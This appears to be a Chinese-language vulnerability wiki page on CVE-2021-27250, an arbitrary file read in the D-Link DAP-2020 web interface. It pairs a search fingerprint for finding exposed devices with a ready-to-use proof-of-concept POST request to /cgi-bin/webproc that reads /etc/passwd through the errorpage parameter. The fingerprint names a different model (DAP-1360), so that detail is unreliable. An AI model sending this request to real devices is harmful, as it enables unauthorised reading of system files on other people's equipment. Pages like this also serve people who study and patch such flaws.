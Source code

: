 # D-LINK DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

<a-checkbox checked>D-LINK DAP-2020 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DAP-1360" && body="6.05"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1657417802195-b0c19793-5041-4c70-8388-21a1827433b1.png)

验证POC

```php
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![img](../../../.vuepress/public/img/1657419070826-a79f2e11-02b4-406b-a728-435e5259ceba.png)
